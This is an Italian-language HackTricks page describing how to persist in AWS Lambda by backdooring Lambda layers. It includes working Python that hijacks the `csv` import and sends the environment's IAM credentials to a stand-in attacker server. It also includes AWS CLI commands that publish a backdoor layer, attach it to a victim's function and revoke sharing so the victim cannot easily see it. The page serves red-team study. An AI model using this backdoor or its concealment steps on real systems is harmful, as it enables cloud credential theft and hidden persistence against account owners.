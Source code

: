 # AWS - Persistenza delle Lambda Layers

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## Lambda Layers

Una Lambda layer è un archivio .zip che **può contenere codice aggiuntivo** o altro contenuto. Una layer può contenere librerie, un [runtime personalizzato](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), dati o file di configurazione.

È possibile includere fino a **cinque layers per funzione**. Quando includi una layer in una funzione, i **contenuti vengono estratti nella directory `/opt`** nell'ambiente di esecuzione.

Per **definizione**, le **layers** che crei sono **private** al tuo account AWS. Puoi scegliere di **condividere** una layer con altri account o di **rendere** la layer **pubblica**. Se le tue funzioni consumano una layer pubblicata da un altro account, le tue funzioni possono **continuare a utilizzare la versione della layer dopo che è stata eliminata, o dopo che il tuo permesso di accesso alla layer è stato revocato**. Tuttavia, non puoi creare una nuova funzione o aggiornare funzioni utilizzando una versione di layer eliminata.

Le funzioni distribuite come immagine del contenitore non utilizzano le layers. Invece, impacchetti il tuo runtime preferito, librerie e altre dipendenze nell'immagine del contenitore quando costruisci l'immagine.

### Percorso di caricamento Python

Il percorso di caricamento che Python utilizzerà in lambda è il seguente:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Controlla come le **seconda** e terza **posizione** sono occupate da directory dove i **lambda layers** decomprimono i loro file: **`/opt/python/lib/python3.9/site-packages`** e **`/opt/python`**

{% hint style="danger" %}
Se un attaccante riesce a **backdoor** un **layer** lambda utilizzato o **aggiungerne uno** che eseguirà **codice arbitrario quando una libreria comune viene caricata**, sarà in grado di eseguire codice malevolo con ogni invocazione di lambda.
{% endhint %}

Pertanto, i requisiti sono:

* **Controllare le librerie** che sono **caricate** dal codice delle vittime
* Creare una **libreria proxy con lambda layers** che **eseguirà codice personalizzato** e **caricherà la libreria originale**.

### Librerie pre-caricate

{% hint style="warning" %}
Quando si abusa di questa tecnica ho trovato una difficoltà: Alcune librerie sono **già caricate** nel runtime di python quando il tuo codice viene eseguito. Mi aspettavo di trovare cose come `os` o `sys`, ma **anche la libreria `json` era caricata**.\
Per abusare di questa tecnica di persistenza, il codice deve **caricare una nuova libreria che non è caricata** quando il codice viene eseguito.
{% endhint %}

Con un codice python come questo è possibile ottenere la **lista delle librerie che sono pre-caricate** all'interno del runtime di python in lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
E questa è la **lista** (controlla che librerie come `os` o `json` siano già presenti)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
E questa è la lista delle **librerie** che **lambda include installate per impostazione predefinita**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Backdooring del Lambda Layer

In questo esempio supponiamo che il codice target stia importando **`csv`**. Stiamo per **backdooring l'importazione della libreria `csv`**.

Per fare ciò, andremo a **creare la directory csv** con il file **`__init__.py`** al suo interno in un percorso che viene caricato da lambda: **`/opt/python/lib/python3.9/site-packages`**\
Poi, quando il lambda viene eseguito e cerca di caricare **csv**, il nostro **file `__init__.py` verrà caricato ed eseguito**.\
Questo file deve:

* Eseguire il nostro payload
* Caricare la libreria csv originale

Possiamo fare entrambe le cose con:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Poi, crea uno zip con questo codice nel percorso **`python/lib/python3.9/site-packages/__init__.py`** e aggiungilo come un layer lambda.

Puoi trovare questo codice in [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Il payload integrato **invierà le credenziali IAM a un server LA PRIMA VOLTA che viene invocato o DOPO un reset del contenitore lambda** (cambio di codice o lambda a freddo), ma **altre tecniche** come le seguenti potrebbero essere integrate:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Layer Esterni

Nota che è possibile utilizzare **layer lambda da account esterni**. Inoltre, un lambda può utilizzare un layer da un account esterno anche se non ha permessi.\
Nota anche che il **numero massimo di layer che un lambda può avere è 5**.

Pertanto, per migliorare la versatilità di questa tecnica, un attaccante potrebbe:

* Backdoor un layer esistente dell'utente (niente è esterno)
* **Creare** un **layer** nel **suo account**, dare accesso all'**account vittima** per utilizzare il layer, **configurare** il **layer** nel Lambda della vittima e **rimuovere il permesso**.
* Il **Lambda** sarà ancora in grado di **utilizzare il layer** e la **vittima non avrà** alcun modo semplice per **scaricare il codice dei layer** (a parte ottenere una rev shell all'interno del lambda)
* La vittima **non vedrà i layer esterni** utilizzati con **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
